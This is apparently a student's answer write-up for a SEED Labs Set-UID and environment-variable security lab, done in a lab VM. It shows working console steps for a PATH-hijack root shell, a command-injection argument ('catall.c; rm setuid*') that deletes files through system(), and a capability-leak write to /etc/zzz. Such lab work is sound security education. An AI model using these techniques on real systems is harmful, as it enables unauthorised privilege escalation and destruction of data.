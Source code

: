 # Answer in my observation

## Task 2
- When comment out the `printenv()` in Line 1 and uncomment  `printenv()` in Line 2. There's nothing change.

## Task 3
- The original code does not call the `/usr/bin/env` program.
- After changing the line 1 to `execve("/usr/bin/env", argv, environ);`, the program calls the `/usr/bin/env` successfully.

## Task 6
- Because the program doesn't call the specific `ls` command, we can do like this to inject the malicious code to the system.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ nano cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ gcc -o cmd cmd.c
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chown root cmd
    [03/22/24]seed@VM:~/.../Labsetup$ sudo chmod 4755 cmd
    [03/22/24]seed@VM:~/.../Labsetup$ cp /bin/sh ls
    [03/22/24]seed@VM:~/.../Labsetup$ ls -l
    total 924
    -rw-rw-r-- 1 seed seed    761 Dec 27  2020 cap_leak.c
    -rw-rw-r-- 1 seed seed    471 Feb 19  2021 catall.c
    -rwsr-xr-x 1 root seed  16696 Mar 22 00:05 cmd
    -rw-rw-r-- 1 seed seed     81 Mar 22 00:04 cmd.c
    -rwxr-xr-x 1 seed seed 878288 Mar 22 00:05 ls
    -rw-rw-r-- 1 seed seed    180 Mar 21 11:53 myenv.c
    -rw-rw-r-- 1 seed seed    418 Mar 21 11:34 myprintenv.c
    -rwsr-xr-x 1 root seed  16768 Mar 21 12:27 setuid
    -rw-r--r-- 1 root root    159 Mar 21 12:26 setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ pwd
    /home/seed/Env_SetUID/Labsetup
    [03/22/24]seed@VM:~/.../Labsetup$ export PATH=/home/seed/Env_SetUID/Labsetup:$PATH
    [03/22/24]seed@VM:~/.../Labsetup$ ./cmd 
    VM# id
    uid=1000(seed) gid=1000(seed) euid=0(root) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    VM#
```
- Explain: 
+ The programmer only uses `ls` path to execute the `ls` command instead of using `/bin/ls` path.
+ The `PATH`, which is the environment variable, has the `/usr/bin` path that has the `ls` command.
+ Therefore we can apply this vulnerability of this Set-UID program to privilege escalation, by using file `/bin/sh` and save, rename it into `ls` as executable file. Finally, adding the path that has injected the malicious code file into the beginning of `PATH` environment variable --> OS will call the path contains the malicious file first, then it sees the fake `ls` file and execute it.

## Task 8
### When using `system()`:
- Because the `system()` invoke the shell, therefore we can abuse to run more commands by using this:

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    setuid
    setuid.c
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'catall.c; rm setuid*' 
    #include <unistd.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>

    int main(int argc, char *argv[])
    {
    char *v[3];
    char *command;

    if(argc < 2) {
        printf("Please type a file name.\n");
        return 1;
    }

    v[0] = "/bin/cat"; v[1] = argv[1]; v[2] = NULL;

    command = malloc(strlen(v[0]) + strlen(v[1]) + 2);
    sprintf(command, "%s %s", v[0], v[1]);

    // Use only one of the followings.
    system(command);
    // execve(v[0], v, NULL);

    return 0 ;
    }
    [03/22/24]seed@VM:~/.../Labsetup$ ls | grep setuid
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

### When using `execve()`:
- Because `execve()` does not invoke shell, we can't abuse this to execute more commands.

```console
    [03/22/24]seed@VM:~/.../Labsetup$ ls
    cap_leak.c  cmd                ls        mylibc.o      myprog.c
    catall      cmd.c              myenv.c   myprintenv.c
    catall.c    libmylib.so.1.0.1  mylibc.c  myprog
    [03/22/24]seed@VM:~/.../Labsetup$ ./catall 'cmd.c; rm cmd*'
    /bin/cat: 'cmd.c; rm cmd*': No such file or directory
    [03/22/24]seed@VM:~/.../Labsetup$ 
```

## Task 9
- We can write to the `/etc/zzz` file by abusing the Capability Leaking, using this:

```console
    root@VM:/home/seed/Env_SetUID/Labsetup# cat /etc/zzz
    Hello, this file is created by user 'root'
    root@VM:/home/seed/Env_SetUID/Labsetup# exit
    exit
    [03/22/24]seed@VM:~/.../Labsetup$ ./cap_leak 
    fd is 3
    $ id                                                                           
    uid=1000(seed) gid=1000(seed) groups=1000(seed),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),136(docker)
    $ echo 'OceanTran999' >&3                                                      
    $ cat /etc/zzz                                                                 
    Hello, this file is created by user 'root'
    OceanTran999
    $ 
```

## References:
[1] https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/
[2] https://juggernaut-sec.com/capabilities/
[3] https://steflan-security.com/linux-privilege-escalation-exploiting-capabilities/
[4] https://man7.org/linux/man-pages/man7/capabilities.7.html
[5] https://linux-audit.com/linux-capabilities-101/
[6] https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#linux-capabilities

